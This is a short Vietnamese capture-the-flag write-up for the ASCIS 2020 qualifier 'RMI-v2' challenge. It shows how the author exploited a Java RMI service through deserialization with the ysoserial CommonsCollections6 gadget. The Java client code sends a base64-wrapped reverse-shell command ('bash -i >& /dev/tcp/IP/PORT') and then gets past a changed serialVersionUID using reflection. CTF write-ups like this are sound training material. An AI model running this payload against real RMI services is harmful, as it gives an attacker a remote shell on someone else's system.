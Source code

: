 # Introduce:
Bài này mình viết một các bước khai thác mà mình và một người anh cựu sinh viên cùng nhau làm.
# Step 1:
Dựa vào hint của tác giả với blog <a href="https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/">này</a> có thể sử dụng gadget CommonsCollections6 để khai thác. Chỉnh sửa lại client lại 1 chút để gửi payload.

```
public static void main(String[] args) throws Exception {
        String serverIP = "IP";
        int serverPort = Integer.parseInt("PORT");
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");
        Object payload = new CommonsCollections6().getObject("bash -c {echo,BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)}|{base64,-d}|{bash,-i}");
        System.out.println(ascisInterf.login(payload));
    }
```
Nhận được exception như dưới:
<img src="https://raw.githubusercontent.com/trungthiennguyen/CTF-Writeup/main/ASCIS-2020-Quals/RMI-v2/vul1.png">
Dựa vào đây biết được tác giả đã đổi biến static final serialVersionUID thành -1333713373713373737L.
# Step 2:
Sử dụng java reflection để thay đổi biến static final lại thành -1333713373713373737L là xong.
<img src="https://raw.githubusercontent.com/trungthiennguyen/CTF-Writeup/main/ASCIS-2020-Quals/RMI-v2/image_2020-11-02_17-29-08.png">
# Note:
Sau khi bruteforce class của ysoserial thì còn có thể sử dụng CommonsCollections5
